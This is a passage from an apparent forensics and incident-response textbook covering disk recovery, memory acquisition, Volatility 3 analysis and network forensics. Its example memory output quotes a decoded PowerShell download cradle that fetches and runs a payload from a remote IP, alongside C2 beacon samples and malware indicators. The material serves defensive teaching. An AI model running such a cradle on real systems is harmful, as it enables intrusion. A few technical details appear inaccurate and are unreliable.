# MFT is stored in the $MFT file in the root of the NTFS volume
# Can be recovered from $MFTMirr for the first 4 entries
```

**MFTECmd Output Example:**
```
MFT Entry #   | File Name       | Extension | Parent Ref | Created Date        | Modified Date   | Access Date | Flags   | Size    | Resident | Slack
45            | Invoice_2024    | .pdf      | 5          | 2024-06-15 14:30:00 | 2024-06-15       | 2024-06-15  | File    | 124,536 | No       | 456
46            | .invoice_tmp    | .tmp      | 5          | 2024-06-15 14:29:58 | 2024-06-15       | 2024-06-15  | Deleted | 0       | Yes      | 0
47            | report.docx     | .docx     | 5          | 2024-06-10 09:00:00 | 2024-06-12       | 2024-06-15  | File    | 45,002  | No       | 128
```

From this output, we can see:
- Entry 46 was deleted → it's a temporary file likely created by the malicious document
- Entry 45 was created at 14:30 → the malicious PDF
- Entry 47 was opened at 14:30 → the user accessed the report (likely clicked the attachment)

### 4.4 Deleted File Recovery


**Real-World Analogy:** A library's checkout system shows that "Book-45" is available (deleted). But the book is still on the shelf. Only when a new book needs that exact shelf space is the old book thrown away. A forensic analyst walks through the library and finds all books marked as "available" that are still on the shelf.

**How Deletion Works in Each File System:**

| File System | Deletion Behavior | Recovery Potential |
|-------------|-------------------|-------------------|
| NTFS | MFT entry flag = 0x00, bitmap cluster marked free. Data intact until overwritten | High (unless TRIM) |
| FAT32 | First byte of filename set to 0xE5 (sigma), FAT entries zeroed. Data intact | High |
| ext4 | Inode marked free, block bitmap updated. Data intact until overwritten | Medium-High |
| APFS (macOS) | Extent records modified, space freed. Copy-on-write may preserve old copies | Medium |
| SSD | TRIM command erases blocks at hardware level | Very Low |

**Deleted File Recovery Commands:**

```bash
# Sleuth Kit: fls with deleted files flag
fls -rd /dev/sdb1 > deleted-files.txt

# fls output interpretation:
# r/r 128-128-1:    deleted_file.pdf
# r/r * 128-128-1:  deleted_file.pdf (reallocated)
# d/d * 45:         deleted_directory/ (reallocated)

# Recover specific file using inode number
icat /dev/sdb1 128 > recovered_file.pdf

# Recover all deleted files (bulk)
tsk_recover -e /dev/sdb1 /recovery/output/

# PhotoRec: Carve deleted files by signature
sudo photorec /evidence/disk.dd
# PhotoRec options:
# - File types to search (select all or specific)
# - Partition type (Intel/EFI/GPT)
# - Output directory

# TestDisk: Recover deleted partitions
sudo testdisk /evidence/disk.dd
# → Analyze → Quick Search → Deeper Search → Write partition table

# Foremost: File carving tool
foremost -t pdf,jpg,zip -i /evidence/disk.dd -o /evidence/carved/

# Scalpel: Configuration-driven file carving
scalpel /evidence/disk.dd -o /evidence/carved/
```

**Sleuth Kit Commands Reference:**

| Command | Purpose | Example |
|---------|---------|---------|
| `fls` | List file names in a disk image | `fls -f ntfs -r image.dd` |
| `ils` | List inode/file metadata | `ils -f ext4 image.dd` |
| `icat` | Output contents of file by inode | `icat image.dd 45 > out.pdf` |
| `ifind` | Find inode of deleted file | `ifind -d 45 -f ntfs image.dd` |
| `istat` | Display inode/file metadata | `istat -f ntfs image.dd 45` |
| `jcat` | Extract journal data | `jcat -f ext4 image.dd` |
| `jls` | List entries in file system journal | `jls -f ext4 image.dd` |
| `mmcat` | Output partition content | `mmcat image.dd 1 > partition1.dd` |
| `mmls` | Display partition layout | `mmls image.dd` |
| `sigfind` | Search for binary signature | `sigfind -l "PK" image.dd` |
| `sorter` | Sort files by type | `sorter -f ntfs -d sorted/ -s image.dd` |
| `srchstrings` | Search for ASCII/Unicode strings | `srchstrings -a image.dd > strings.txt` |
| `tsk_comparedir` | Compare TSK database to directory | `tsk_comparedir -d /mnt evidence.db` |
| `tsk_gettimes` | Extract timeline data | `tsk_gettimes image.dd > timeline.body` |
| `tsk_loaddb` | Load image into SQLite database | `tsk_loaddb image.dd evidence.db` |
| `tsk_recover` | Recover files from image | `tsk_recover -e image.dd /output/` |

### 4.5 File Carving


**Real-World Analogy:** A paper shredder tears documents into strips. File carving is like trying to piece together shredded documents by matching colors and paper textures, without having the original document index. You know that PDFs start with "%PDF" and end with "%%EOF", so you look for those markers in the shredder bin.

**How File Carving Works:**
1. Scan the raw disk surface byte by byte
2. Match magic bytes (file signatures) against a database
3. Once a header is found, read until the matching footer is found
4. If no footer exists, estimate file size from header metadata (JPEG height/width, etc.)

**Common File Signatures (Magic Bytes):**

| File Type | Header (Hex) | Footer (Hex) | Carving Complexity |
|-----------|-------------|--------------|-------------------|
| JPEG | FF D8 FF E0 / FF D8 FF E1 | FF D9 | Low (bounded) |
| PNG | 89 50 4E 47 | AE 42 60 82 | Low (bounded) |
| PDF | 25 50 44 46 | 25 25 45 4F 46 | Medium (may have trailing data) |
| ZIP | 50 4B 03 04 | 50 4B 05 06 | High (nested archives) |
| DOCX/XLSX/PPTX | 50 4B 03 04 (ZIP-based) | 50 4B 05 06 | High (ZIP extraction needed) |
| AVI | 52 49 46 46 | → | Medium (size from header) |
| MP4 | 00 00 00 18 66 74 79 70 | → | Medium |
| ELF | 7F 45 4C 46 | → | Low (bounded sections) |
| PE (EXE/DLL) | 4D 5A | → | Low (PE header specifies size) |

**Advanced Carving Techniques:**
- **Bifragment Gap Carving** → recovers files split into two fragments
- **Smart Carving** → uses file structure knowledge (not just headers/footers)
- **Statistical Carving** → analyzes entropy to identify file type boundaries
- **Object Validation** → validates each carved fragment (e.g., checksum verification for ZIP)

### 4.6 SSD and TRIM Considerations


SSDs pose significant challenges for traditional forensics:

| Challenge | Impact | Mitigation |
|-----------|--------|------------|
| TRIM command | Permanently erases deleted file data | Image before OS TRIM executes |
| Garbage collection | Background erase of unused blocks | Power-off capture may lose data |
| Wear leveling | Data blocks move without file system knowledge | No mitigation |
| Over-provisioning | Hidden spare blocks not addressable | Cannot acquire over-provisioned area |
| NVMe encryption | Self-encrypting drives lock on power loss | Hot capture while system runs |

**SSD Forensic Best Practices:**
1. Never power down an SSD suspect system → capture live
2. Use hardware write-blocker that supports TRIM passthrough
3. Capture RAM before disk (encryption keys may be in memory)
4. Document SSD model and firmware version (some controllers have known forensic behaviors)
5. Consider chip-off forensics for severely damaged or encrypted SSDs

### 4.7 Data Recovery Tools Comparison


| Tool | Type | File Systems | Best For | Cost |
|------|------|-------------|----------|------|
| Sleuth Kit (Autopsy) | CLI/GUI | NTFS, FAT, ext4, HFS+ | Full forensic analysis | Free |
| FTK Imager | GUI | NTFS, FAT, ext4 | Preview and acquisition | Free |
| EnCase | GUI | NTFS, FAT, ext4, HFS+ | Enterprise forensic suite | Commercial |
| X-Ways Forensics | GUI | NTFS, FAT, ext4, HFS+ | Fast, lightweight analysis | Commercial |
| R-Studio | GUI | NTFS, FAT, ext4, HFS+, APFS | Complex RAID recovery | Commercial |
| PhotoRec | CLI | All (raw scan) | File carving | Free |
| Foremost | CLI | All (raw scan) | Linux-oriented carving | Free |
| Scalpel | CLI | All (raw scan) | Configurable carving | Free |
| RecoverMyFiles | GUI | NTFS, FAT | User-friendly recovery | Commercial |
| DMDE | GUI | NTFS, FAT, ext4, HFS+ | Partition recovery | Freemium |
| Recuva | GUI | NTFS, FAT | Consumer file recovery | Free/Commercial |
| R-Photo | GUI | NTFS, FAT, exFAT | Photo recovery | Free |

### 4.8 Disk Forensics Edge Cases


1. **RAID Reconstruction** → RAID 0/5/6 requires reassembling stripes before analysis. Command: `mdadm --assemble --scan`
2. **BitLocker Encryption** → Need recovery key or memory dump containing FVEK (Full Volume Encryption Key). Extract via: `volatility -f memory.raw bitlocker`
3. **LUKS Encryption** → Need passphrase or memory dump. Extract via: `volatility -f memory.raw linux.luks`
4. **Hidden Partitions** → Use `mmls` to detect partitions not in the partition table. Check for gaps between partitions.
5. **Host Protected Area (HPA)** → Hidden area on ATA drives. Detect with: `hdparm -N /dev/sdb`
6. **Device Configuration Overlay (DCO)** → Another hidden area. Detect with: `hdparm --dco-identify /dev/sdb`
7. **Alternate Data Streams (ADS)** → NTFS-only: data hidden behind ":stream" syntax. Detect: `dir /r` on Windows, `fls -r` with TSK.
8. **Volume Shadow Copy (VSS)** → Windows "previous versions" can contain deleted file history. Access via `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyN\`
# Chapter 8: Forensics & Incident Response

## 5. Memory Forensics

**Real-World Analogy:** A detective arrives at a crime scene and finds a whiteboard covered in notes. The whiteboard shows: who was logged in (processes), what websites were open (network connections), which applications were running (loaded DLLs), and sticky notes with passwords (encryption keys). Memory forensics is photographing that whiteboard before anyone erases it → because as soon as the power goes out, the whiteboard is wiped clean.

### 5.1 Why Memory Forensics Matters


| Traditional Disk Forensics | Memory Forensics |
|---------------------------|------------------|
| Sees installed programs | Sees running programs |
| Finds encrypted files on disk | May capture decryption keys from RAM |
| May miss fileless malware | **Catches fileless malware** that never touches disk |
| Cannot see active network connections | Lists live connections and listening ports |
| Does not capture running processes | Captures process trees with parent-child relationships |
| Registry shows installed software | RAM shows **loaded drivers, injected DLLs, and hidden processes** |

**Critical Artifacts Found Only in Memory:**

| Artifact | What It Reveals |
|----------|-----------------|
| Network connections | C2 communication, data exfiltration endpoints |
| Process handles | File, registry, and mutex references |
| Loaded modules | DLL injection, rootkit components |
| Code injection | Shellcode, reflective DLL loading |
| Encryption keys | BitLocker FVEK, TrueCrypt passphrases, SSL private keys |
| Command history | PowerShell commands executed in memory |
| Clipboard contents | Passwords, sensitive data copied by user |
| Unethered executables | Malware that deletes itself from disk after execution |

### 5.2 Memory Acquisition Methods


#### Windows Memory Acquisition

```powershell
# dumpit (Magnet Forensics) → simplest method
.\dumpit.exe
# Output: dumpit_memory.dmp in current directory

# FTK Imager → GUI and CLI
# GUI: File → Capture Memory → Destination → Capture
# CLI:
fcapture.exe /dest="D:\evidence\" /noprompt

# WinPmem (part of Rekall)
.\winpmem_mini_x64_rc2.exe \\.\pmem D:\evidence\memory.raw

# Belkasoft Live RAM Capturer
# Requires admin privileges
# GUI: Select destination → Capture

# Comae (for crash dump analysis)
# Requires Windows Error Reporting settings
C:\ProgramData\Comae\comae.exe --output=D:\evidence\memory.json
```

#### Linux Memory Acquisition

```bash
# LiME (Linux Memory Extractor) → recommended
# Compile the kernel module
git clone https://github.com/504ensicsLabs/LiME.git
cd LiME/src
make

# Load module to capture memory
sudo insmod lime-6.1.0.ko "path=/evidence/memory.lime format=lime"
# Output formats: lime (raw with page info), raw, padded

# AVML (Acquire Volatile Memory for Linux) → precompiled
sudo ./avml /evidence/memory.raw

# fmem → kernel module for memory access
sudo ./run.sh /evidence/memory.raw

# /proc/kcore (limited, may not work on all kernels)
sudo dd if=/proc/kcore of=/evidence/memory.raw bs=1M

# /dev/mem (only first 1 GB on most systems, limited)
sudo dd if=/dev/mem of=/evidence/memory_1GB.raw bs=1M count=1000
```

#### macOS Memory Acquisition

```bash
# macOS Memory Acquisition with osxpmem (Rekall)
sudo osxpmem.app/Contents/MacOS/osxpmem -o /evidence/memory.raw

# macOS built-in (limited → only kernel memory)
sudo dtrace -n 'BEGIN { tracemem(0, 1000); exit(0); }'
```

#### Virtual Machine Memory Acquisition

```bash
# VMware: Copy .vmem file (suspended/paused state)
cp /vmfs/volumes/datastore1/VM/machine.vmem /evidence/

# VMware snapshot with memory
vmware-cmd VM.vmx createsnapshot "ForensicSnap" 1 1

# Hyper-V: Export VM with memory
Export-VM -Name "SuspiciousVM" -Path "D:\evidence\" -CaptureLiveState CaptureDataConsistentState

# VirtualBox: Save state
VBoxManage controlvm "SuspiciousVM" savestate
# .sav files are in the VM folder

# QEMU/KVM: Use virsh
virsh dump SuspiciousVM /evidence/VM-memory.dump --memory-only --format elf
```

### 5.3 Volatility 3 → Memory Analysis


Volatility 3 is the industry-standard memory forensics framework. It is written in Python 3 and supports Windows, Linux, and macOS memory dumps.

#### Installation

```bash
# Install from PyPI
pip3 install volatility3

# Or clone from GitHub
git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3

# Verify installation
python3 vol.py --help
```

#### Windows Memory Analysis with Volatility 3

**Command Pattern:** `python3 vol.py -f <memory.dump> <os>.<plugin>`

##### 1. Identify the Operating System and Profile

```bash
# Scan for available profiles
python3 vol.py -f memory.raw windows.info

# Example output:
# Volatility 3 Framework x.x.x
# Windows Version: Windows 10 Version 1909 (Build 18363)
# Number of Processors: 4
# Image Date: 2024-06-15 14:30:00 UTC
# Kernel Base: 0xf8000281a000
# KdDebuggerDataBlock: 0xf80002c3b0a0
# MajorVersion: 10
# MinorVersion: 0
```

##### 2. List Running Processes

```bash
python3 vol.py -f memory.raw windows.pstree

# Example output:
"""
PID   PPID  ImageFileName  Offset(V)       Threads  Handles  SessionId  CreateTime
4     0     System         0x8a2c002a8040  138      0        N/A        2024-06-15 08:00:00.000000
456   4     smss.exe       0x8a2c0035c040  3        0        N/A        2024-06-15 08:00:15.000000
632   608   csrss.exe      0x8a2c0041e080  10       0        0          2024-06-15 08:00:20.000000
708   696   winlogon.exe   0x8a2c0054c080  5        0        0          2024-06-15 08:00:22.000000
816   696   services.exe   0x8a2c0069b080  9        0        0          2024-06-15 08:00:25.000000
824   816   svchost.exe    0x8a2c007a5080  15       0        0          2024-06-15 08:00:28.000000
1044  816   svchost.exe    0x8a2c008c3080  12       0        0          2024-06-15 08:00:30.000000
1188  824   svchost.exe    0x8a2c009e1080  8        0        0          2024-06-15 08:00:32.000000
1220  824   svchost.exe    0x8a2c00a2c080  20       0        0          2024-06-15 08:00:33.000000
1464  816   spoolsv.exe    0x8a2c00b48080  7        0        0          2024-06-15 08:00:35.000000
2032  816   MsMpEng.exe    0x8a2c00d0c080  10       0        0          2024-06-15 08:01:00.000000
3420  632   cmd.exe        0x8a2c0140a080  2        0        1          2024-06-15 14:30:05.000000
3456  3420  powershell.exe 0x8a2c0144c080  6        0        1          2024-06-15 14:30:10.000000
"""
```

**Analysis:**
- cmd.exe (PID 3420) started at 14:30:05 → likely the user opened command prompt
- powershell.exe (PID 3456) started at 14:30:10 → spawned by cmd.exe → highly suspicious
- Compare with system baseline: no PowerShell session should be running at this time

##### 3. Examine Process Command Lines

```bash
python3 vol.py -f memory.raw windows.cmdline

# Example output:
"""
3420   cmd.exe           C:\Windows\System32\cmd.exe
3456   powershell.exe    powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden
                         -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA4ADUALgAyADM0AC4ANwAyAC4AMQA4AC8AcABhAHkAbABvAGEAZAAnACkA
"""
```

**Decoded Base64:**
`IEX (New-Object Net.WebClient).DownloadString('http://185.234.72.18/payload')`

This reveals the PowerShell download cradle → it fetches and executes a payload from a remote server. This is the C2 callback.

##### 4. List Network Connections

```bash
python3 vol.py -f memory.raw windows.netscan

# Example output:
"""
Offset      Proto  LocalAddr          LocalPort  ForeignAddr        ForeignPort  State       PID    Owner
0x8a2c...  TCPv4  192.168.1.105       49152      52.95.110.1        443          ESTABLISHED 816   svchost.exe
0x8a2c...  TCPv4  192.168.1.105       49153      13.107.4.52        443          ESTABLISHED 1220  svchost.exe
0x8a2c...  TCPv4  192.168.1.105       49154      185.234.72.18      443          ESTABLISHED 3456  powershell.exe
0x8a2c...  TCPv4  192.168.1.105       49155      192.168.1.50       445          ESTABLISHED 3456  powershell.exe
0x8a2c...  TCPv4  0.0.0.0             3389       -                  -            LISTENING   632   svchost.exe
"""
```

**Analysis:**
- PID 3456 (powershell.exe) has an established connection to 185.234.72.18:443 → suspicious C2 server
- PID 3456 also has a connection to 192.168.1.50:445 (SMB) → lateral movement in progress
- RDP (3389) is listening → potential for remote access abuse

##### 5. List Loaded DLLs for a Specific Process

```bash
python3 vol.py -f memory.raw windows.dlllist --pid 3456

# Example output:
"""
PID   Process         Base          Size          LoadCount  Path
3456  powershell.exe  0x7ff6b4c00000 0x1000        0xffff     C:\Windows\System32\powershell.exe
3456  powershell.exe  0x7ffc9a800000 0x1a000       0xffff     C:\Windows\System32\ntdll.dll
3456  powershell.exe  0x7ffc99100000 0x80000       0xffff     C:\Windows\System32\kernel32.dll
3456  powershell.exe  0x7ffc96800000 0x50000       0xffff     C:\Windows\System32\KernelBase.dll
3456  powershell.exe  0x7ffc8a000000 0x100000      0xffff     C:\Windows\System32\mscorlib.dll
3456  powershell.exe  0x7ffc89000000 0x300000      0xffff     C:\Windows\System32\clr.dll
3456  powershell.exe  0x7ffc87000000 0x1c000       0xffff     C:\Windows\System32\ole32.dll
3456  powershell.exe  0x7ffc75000000 0x90000       0x001      C:\Windows\System32\amsi.dll
3456  powershell.exe  0x70000000      0x24000       -1         C:\Users\jdoe\AppData\Temp\beacon.dll
"""
```

**Analysis:**
- A suspicious DLL is loaded from Temp directory: `beacon.dll` (base address 0x70000000, unusual → normal DLLs are above 0x7xxxxxxx)
- LoadCount = -1 indicates the DLL was manually loaded (LoadLibrary or reflective loading)
- This is likely Cobalt Strike beacon DLL

##### 6. Detect Code Injection

```bash
python3 vol.py -f memory.raw windows.malfind

# Example output:
"""
Volatility 3 Framework 2.5.0
Process: powershell.exe Pid: 3456 Address: 0x2b0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Hex dump:
2b0000  e8 00 00 00 00 5d 48 81 ec 00 01 00 00 48 8d 2d   .....]H......H.-
2b0010  f8 ff ff ff 48 83 3d 15 10 00 00 00 75 10 48 8d   ...H.=.....u.H.
2b0020  05 0e 10 00 00 48 89 02 48 83 c2 04 ff e0 48 8d   .....H..H.....H.

Disassembly:
0x2b0000: call 0x2b0005
0x2b0005: pop rbp
0x2b0006: sub rsp, 0x100
0x2b000d: lea rbp, [rip-0x8]

7 matches found. Use --dump flag to extract injected code.
"""
```

**Analysis:**
- Memory region at 0x2b0000 has PAGE_EXECUTE_READWRITE protection → very suspicious
- Normal pages don't have execute + write simultaneously
- The shellcode appears to be position-independent (call/pop pattern)
- 7 injected code regions found

##### 7. Scan for Malware Signatures (YARA within Volatility)

```bash
python3 vol.py -f memory.raw windows.yarascan --yara-rules malware.yara

# Example output:
"""
Rule: CobaltStrike_Beacon
String: "MZRE" at offset 0x2b0500
Owner: powershell.exe PID 3456
VA: 0x2b0500
Hex: 4d 5a 52 45 ...

Rule: Mimikatz_Reference
String: "mimidrv" at offset 0x3a1000
Owner: lsass.exe PID 640
VA: 0x3a1000
"""
```

##### 8. Dump Process for Further Analysis

```bash
# Dump a specific process executable
python3 vol.py -f memory.raw windows.dumpfiles --pid 3456

# Dump all processes
python3 vol.py -f memory.raw windows.dumpfiles --virtaddr 0x8a2c0144c080

# Extract process memory
python3 vol.py -f memory.raw windows.memmap --pid 3456 --dump
# Output: pid.3456.dmp → full process memory space

# Scan extracted memory with YARA
yara malware_rules.yara pid.3456.dmp
```

##### 9. Registry Analysis from Memory

```bash
# Extract registry hives from memory
python3 vol.py -f memory.raw windows.registry.hivelist

# Example output:
"""
Offset          FileFullPath                   File output
0xf00000000001  \SystemRoot\System32\config\SOFTWARE
0xf00000000002  \SystemRoot\System32\config\SYSTEM
0xf00000000003  \SystemRoot\System32\config\SAM
0xf00000000004  \SystemRoot\System32\config\SECURITY
0xf00000000005  \SystemRoot\System32\config\DEFAULT
0xf00000000006  \Device\HarddiskVolume1\Users\jdoe\NTUSER.DAT
0xf00000000007  \Device\HarddiskVolume1\Users\jdoe\AppData\Local\Microsoft\Windows\UsrClass.dat
"""

# Print specific registry keys
python3 vol.py -f memory.raw windows.registry.printkey --key "Microsoft\Windows\CurrentVersion\Run"
# → Shows autorun entries (persistence mechanisms)

python3 vol.py -f memory.raw windows.registry.printkey --key "Microsoft\Windows\CurrentVersion\RunOnce"
# → Shows one-time autorun

python3 vol.py -f memory.raw windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion\Run"
# → Current user startup programs

# Dump registry hives for offline analysis
python3 vol.py -f memory.raw windows.registry.hivedump
```

##### 10. Additional Volatility 3 Plugins

```bash
# MBR scan (look for bootkits)
python3 vol.py -f memory.raw windows.mbrscan

# Process handles (find file handles, mutexes, pipes)
python3 vol.py -f memory.raw windows.handles --pid 3456

# Process environment variables
python3 vol.py -f memory.raw windows.envars --pid 3456

# SIDs and user accounts
python3 vol.py -f memory.raw windows.getsids

# Service information
python3 vol.py -f memory.raw windows.svcscan

# Driver scan (find kernel-mode rootkits)
python3 vol.py -f memory.raw windows.driverscan

# SSDT (System Service Descriptor Table) hook detection
python3 vol.py -f memory.raw windows.ssdt

# Kernel modules (Linux)
python3 vol.py -f memory.lime linux.lsmod

# bash history (Linux)
python3 vol.py -f memory.lime linux.bash

# Netfilter connections (Linux)
python3 vol.py -f memory.lime linux.netstat

# Mac process list
python3 vol.py -f memory.macho mac.pstree
```

### 5.4 Analyzing Specific Malware Artifacts in Memory


#### Cobalt Strike Detection

```
Indicators:
- Named pipe patterns: \\.\pipe\msagent_XX, \\.\pipe\status_XX
- MZ header in PAGE_EXECUTE_READWRITE regions
- Sleep mask artifacts (modified beacon in memory)
- Specific mutex names: Global\MSSEAR, Global\MSOffice_16

Volatility Commands:
1. malfind → find injected code regions
2. dlllist → look for anomalous DLL paths
3. netscan → identify beaconing intervals
4. pslist → check for masquerading processes (svchost.exe in wrong location)
```

#### Mimikatz Detection

```
Indicators:
- Process lsass.exe has anomalous handles
- Known strings: "mimikatz", "mimidrv", "wdigest"
- Kiwi module loaded in memory
- Sekurlsa::logonpasswords function strings

Volatility Commands:
1. handles → check for access to lsass.exe from non-standard processes
2. yarascan → scan for mimikatz signatures
3. cmdline → check for sekurlsa invocation
```

#### Metasploit/Meterpreter Detection

```
Indicators:
- Reflective DLL loading artifacts
- Named pipes: \\.\pipe\meterpreter_*
- Stage encoding patterns
- Reverse TCP/HTTPS connection to dynamic ports

Volatility Commands:
1. netscan → find reverse shell connections
2. malfind → detect injected meterpreter DLL
3. cmdline → show scripted payload execution
```

### 5.5 Memory Forensics Challenges and Anti-Forensics


| Challenge | Description | Counter-Approach |
|-----------|-------------|------------------|
| Process hollowing | Malware replaces memory of a legitimate process | Compare VAD with PE sections |
| DKOM (Direct Kernel Object Manipulation) | Rootkit removes process from kernel list | Use kdbgscan or psscan to find unlinked processes |
| DLL unloading | Malware loads DLL then unloads to avoid detection | Scan pagefile/swap for unloaded code |
| API hooking | Malware hooks system calls | Compare SSDT, IDT, IRP tables |
| Memory scanning detection | Rootkit detects memory acquisition tools | Use hardware-assisted acquisition |
| Full memory encryption | Some advanced malware encrypts its own memory | Capture before encryption initializes |
| Large memory >64 GB | Acquisition and analysis time increases | Use remote acquisition over 10 GbE |
| RAM compression (Windows 8+) | Pages may be compressed | Volatility handles decompression automatically |

### 5.6 Memory Forensics → Complexity & Performance


| Factor | Impact |
|--------|--------|
| Memory dump size | 4 GB RAM ≈ 4 GB file. Analysis time ≈ 10-30 minutes |
| Number of processes | Each additional process adds scan time |
| Plugin complexity | netscan is slower than pslist (more data structures) |
| Hardware | SSD storage + 16 GB+ RAM recommended for analysis |
| YARA scanning | Can increase analysis time 2-5x depending on rule count |

---

## 6. Network Forensics

**Real-World Analogy:** Security cameras at a bank record every person who enters and exits, what they carry, who they talk to, and how long they stay. Network forensics is reviewing those camera recordings (PCAP files) to reconstruct the intruder's path → when they entered, where they went, what data they took, and how they communicated with their accomplices outside.

### 6.1 PCAP Analysis Fundamentals


**Key Network Forensic Artifacts:**

| Event Type | Evidence Source | Forensic Value |
|-----------|-----------------|----------------|
| DNS query | DNS request/reply | Reveals C2 domain lookups, DGA activity |
| HTTP request | HTTP GET/POST | Shows malware download URLs, exfiltrated data |
| TLS handshake | Client Hello SNI | Identifies destination domain (even encrypted) |
| Email traffic | SMTP/IMAP/POP3 | Phishing emails, data exfiltration |
| File transfer | FTP, SMB, HTTP download | Recover exfiltrated files |
| Authentication | NTLM, Kerberos, HTTP Basic | Extract usernames, password hashes |
| Beaconing | Periodic TCP connections | C2 communication pattern |

### 6.2 Wireshark Analysis


#### Capturing Traffic

```bash
# Capture traffic on specific interface
wireshark -i eth0 -k

# OR from command line with tshark
tshark -i eth0 -w capture.pcap -F pcapng

# Capture with filter (reduce noise)
tshark -i eth0 -w capture.pcap -f "host 192.168.1.105"

# Capture with rotation (for long captures)
tshark -i eth0 -w capture_%Y%m%d_%H%M.pcap -b filesize:102400 -b files:10
```

#### Key Wireshark Display Filters

| Filter | Purpose |
|--------|---------|
| `http.request` | Show all HTTP requests |
| `http.response.code == 200` | Successful HTTP downloads |
| `dns.qry.name contains ".xyz"` | Suspicious TLD lookups |
| `tcp.port == 445` | SMB traffic (lateral movement) |
| `ip.src == 192.168.1.105` | Traffic from a specific IP |
| `tls.handshake.type == 1` | TLS Client Hello messages |
| `frame.time_delta > 1` | Packets with time gaps >1 second |
| `data.data` | Raw application data |
| `http.request.uri contains "upload"` | File upload URLs |
| `tcp.flags.syn == 1 and tcp.flags.ack == 0` | TCP SYN (new connections) |

#### Following TCP Streams

```bash
# Wireshark GUI:
# Right-click on TCP packet → Follow → TCP Stream

# tshark: Extract TCP stream to file
tshark -r capture.pcap -z follow,tcp,ascii,45 -q > stream_45.txt

# Extract TCP stream raw bytes
tshark -r capture.pcap -z follow,tcp,hex,45 -q
```

**Example TCP Stream → HTTP Download of Malware:**

```
GET /payload.exe HTTP/1.1
Host: 185.234.72.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: */*
Connection: Keep-Alive

HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 342016
Date: Sat, 15 Jun 2024 14:30:15 GMT
Server: Apache/2.4.41 (Ubuntu)

MZ.......................PE..L.....R...  [binary data = PE executable]
```

#### Extracting Files from HTTP Traffic

```bash
# Using tshark to extract objects
tshark -r capture.pcap --export-objects http,/evidence/carved/

# Wireshark GUI:
# File → Export Objects → HTTP → Select All → Save

# Extract specific file by TCP stream
tshark -r capture.pcap -z follow,tcp,raw,45 -q | tail -n +6 | xxd -r -p > extracted_payload.exe
```

#### Detecting Malware C2 with Wireshark

**C2 Beaconing Indicators:**
1. **Regular intervals** → malware checks in every X seconds/minute
2. **Same packet size** → beacons often have identical structure
3. **Unusual ports** → C2 on non-standard ports (8443, 8080, 4444)
4. **DGA domains** → random-looking subdomains (.xyz, .top, .info)
5. **User-Agent anomalies** → fake or outdated browser user agents
6. **Jitter patterns** → intentional randomization to evade detection

```bash
# Find beaconing: count connections per destination IP
tshark -r capture.pcap -T fields -e ip.dst -e tcp.dstport | sort | uniq -c | sort -rn

# Example output:
# 245 185.234.72.18 443   ← 245 connections to C2 server
# 120 13.107.4.52   443   ← Windows Update (normal)
# 89  8.8.8.8       53    ← DNS queries (normal)

# Analyze connection timing (jitter analysis)
tshark -r capture.pcap -Y "ip.dst == 185.234.72.18" -T fields -e frame.time_epoch > timestamps.txt
# Calculate differences between consecutive timestamps
```

**HTTP Beacon Example:**
```
GET /images/status.png HTTP/1.1
Host: 185.234.72.18
Cookie: session=MTYyNzMwNDU2MA==
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64)
```

The same request every 60 seconds with the same file, same cookie structure → this is a C2 beacon, not a real image download.

### 6.3 Zeek (Bro) Analysis


Zeek (formerly Bro) is a network security monitor that converts raw PCAP into structured logs.

#### Log Generation

```bash
# Analyze PCAP with Zeek
zeek -r capture.pcap local

# This generates multiple log files:
# conn.log      → connection summaries
# dns.log       → DNS queries/responses
# http.log      → HTTP requests/responses
# ssl.log       → TLS/SSL handshakes
# ftp.log       → FTP sessions
# smtp.log      → Email traffic
# ssh.log       → SSH connections
# files.log     → File extraction
# notice.log    → Zeek-generated alerts
```

#### conn.log Analysis

```
#separator \x09
#fields ts              uid           id.orig_h      id.orig_p  id.resp_h        id.resp_p  proto  service  duration   orig_bytes  resp_bytes  conn_state
1141605291.123456  C1kqQZ...  192.168.1.105  49152      185.234.72.18    443        tcp    ssl     120.456   342016       5340        RSTO
1141605295.234567  C2rqRZ...  192.168.1.105  49153      13.107.4.52      443        tcp    ssl     3.123     1024         20480       SF
1141605300.345678  C3sqSZ...  192.168.1.105  49154      8.8.8.8          53         udp    dns     0.045     64           72          SF
```

**Analysis from conn.log:**
- Connection C1kqQZ to 185.234.72.18:443 has duration 120 seconds → long-lived connection
- RSTO state means connection terminated by originator (not graceful close → malware self-terminated)
- High orig_bytes (342016) = file was sent to the server? Or payload was downloaded?
- Connection C2rqRZ is normal (short duration, SF = normal close)

#### dns.log Analysis

```
#fields ts          uid       id.orig_h      id.resp_h    query                    qtype  qclass  rcode
1141605300.456789  D4trSZ..  192.168.1.105  8.8.8.8      updates.download.windows.com  A     IN      0
1141605310.567890  D5usTA..  192.168.1.105  8.8.8.8      abcdefgh123456.xyz           A     IN      3
1141605320.678901  D6vtUB..  192.168.1.105  8.8.8.8      ijklmnop789012.xyz           A     IN      3
1141605330.789012  D7wuUC..  192.168.1.105  8.8.8.8      qrstuvwx345678.xyz           A     IN      3
```

**Analysis:**
- Random-looking subdomains querying .xyz TLD → DGA (Domain Generation Algorithm)
- rcode = 3 means NXDOMAIN (domain doesn't resolve) → typical DGA behavior
- Queries every 10 seconds → beaconing

#### http.log Analysis

```
#fields ts          uid       id.orig_h      id.resp_h     method  host             uri                   status  resp_mime_types           user_agent
1141605305.234567  H8xvUD..  192.168.1.105  185.234.72.18  GET    185.234.72.18     /images/status.png     200     image/png                 Mozilla/5.0 (Windows NT 6.1; WOW64)
1141605365.345678  H9ywVE..  192.168.1.105  185.234.72.18  GET    185.234.72.18     /images/status.png     200     image/png                 Mozilla/5.0 (Windows NT 6.1; WOW64)
1141605425.456789  H0zxVF..  192.168.1.105  185.234.72.18  GET    185.234.72.18     /images/status.png     200     image/png                 Mozilla/5.0 (Windows NT 6.1; WOW64)
```

**Analysis:**
- Same request every 60 seconds to the same URI
